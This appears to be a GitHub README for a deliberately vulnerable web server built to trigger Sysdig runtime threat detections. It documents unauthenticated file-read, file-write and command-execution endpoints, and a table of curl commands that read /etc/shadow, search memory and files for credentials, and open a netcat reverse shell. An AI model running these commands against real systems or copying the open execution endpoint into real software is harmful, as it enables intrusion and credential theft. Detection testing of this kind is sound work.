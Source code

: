# Security Playground

The security playground is a HTTP web server that alllows you to simulate various security breaches in runtime.

## Installation

Use the deployment.yaml to deploy this to your kubernetes cluster, it will deploy
- Deployment with 1 Replica of the pod
- LoadBalancer Service to expose the web server on port 80/HTTP

```bash
kubectl apply -f kubernetes-manifests/deployment.yaml
```

Or run it locally in using docker

```bash
docker run --rm -p 8080:8080 ghcr.io/andrewd-sysdig/security-playground:latest
```

## Usage

The HTTP API exposes three endpoints to interact with the system.

### Reading a file

You can read a file using just the URL. This will return the content of the /etc/shadow file.

```bash
curl http://<webserver>/etc/shadow
```

### Writing a file

You can write to a file using the URL and POSTing the content. This will write to /bin/hello the hello-world string.

```bash
curl -X POST http://<webserver>/bin/hello -d 'content=hello-world'
```

### Executing a command

You can execute a command using the /exec endpoint and POSTing the command. This will capture and return the STDOUT of the command executed.

```bash
curl -X POST http://<webserver>/exec -d 'command=ls -la'
```

## Library of curl commands to trigger various Sysdig Events

Set the WEBSERVERIP env variable to be the IP of your target (the pod/service)

`export WEBSERVERIP=192.168.1.15`

> **Sysdig Managed Policy: Sysdig Runtime Threat Detection (Severity: High)**

| Sysdig Event | Curl Command   |
|---|---|
| Reconnaissance attempt to find SUID binaries | `curl -X POST http://$WEBSERVERIP/exec -d 'command=find / -perm -u=s -type f 2>/dev/null'` |
| Dump memory for credentials | `curl -X POST http://$WEBSERVERIP/exec -d 'command=grep passwd /proc/1/mem'` |
| Find AWS Credentials | `curl -X POST http://$WEBSERVERIP/exec -d 'command=grep aws_access_key_id /tmp/'` |
| Netcat Remote Code Execution in Contianer | `curl -X POST http://$WEBSERVERIP/exec -d 'command=nc -c bash 10.0.0.1 4242'` |

> **Sysdig Managed Policy: Sysdig Runtime Notable Events (Severity: Medium)**

| Sysdig Event | Curl Command   |
|---|---|
| Read sensitive file untrusted | `curl http://security-playground-aks-ds-dskb-nonprod-aue.azr.cmltd.net.au/etc/shadow` |
